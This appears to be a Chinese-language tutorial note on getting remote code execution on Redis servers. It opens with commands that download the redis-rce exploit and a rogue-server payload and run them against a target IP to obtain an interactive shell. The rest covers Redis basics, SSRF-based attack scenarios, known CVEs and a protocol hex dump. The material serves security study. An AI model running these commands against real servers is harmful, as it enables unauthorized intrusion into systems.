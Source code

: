 下载漏洞利用脚本:

`git clone https://github.com/Ridter/redis-rce.git`   //

注意，这里少一个.so的文件，到 https://github.com/n0b0dyCN/redis-rogue-server 下载并放到和redis-rce.py同一目录下，然后执行如下命令：

`python3 redis-rce.py -r 目标ip -L 攻击ip -f exp.so` 之后得到可交互shell。

具体使用可以看redis-rce里的readme。




## 原理
> 来自 pavel toporkov ， kaspersky lab

### redis
Redis is an open source, in-memory data structure store, used as a database, cache and message broker. 

Redis is usually used as:
- Session/Caching (serialized!) data storage
- PUB/SUB messaging service
- Message broker for asynchronous task queues.

Default port - 6379/tcp

### challenge
Given:
- SSRF without response content retrieval
- Zero knowledge about database structure (key names, pub/sub channels, etc)

Find:
- Remote Code Execution

### known techniques
CVE-2015-4335/DSA-3279 - Redis Lua Sandbox Escape
• https://redislabs.com/blog/cve-2015-4335dsa-3279-redis-lua-sandbox-escape/
• http://benmmurphy.github.io/blog/2015/06/04/redis-eval-lua-sandbox-escape/

SLAVEOF (https://redis.io/commands/slaveof)
PRO: We can change/insert any data to database and thus 
manipulate application logic
CON: We need to know about database data structure and 
how application processes data from it
CON: It’s possible to crash the application


### protocol analysis

redis-server support 2 protocols：
- 明文（空格分开）的，例如：`set KEYNAME VALUE\n`
- 自定义的，例如：`*3\r\n$3\r\nSET\r\n$7\r\nkeyname\r\n$5\r\nvalue\r\n`

抓包分析可以找到：
```
2a 33 0d 0a 24 33 0d 0a 73 65 74 0d 0a 24 33 0d | *3..$3..set..$3.
0a 61 62 63 0d 0a 24 34 0d 0a 31 32 33 34 0d 0a | .abc..$4..1234..
2b 4f 4b 0d 0a | +OK.. 
2a 32 0d 0a 24 33 0d 0a 67 65 74 0d 0a 24 31 0d | *2..$3..get..$1.
0a 61 62 63 0d 0a | .abc..
24 34 0d 0a 31 32 33 34 0d 0a | $4..1234..
```
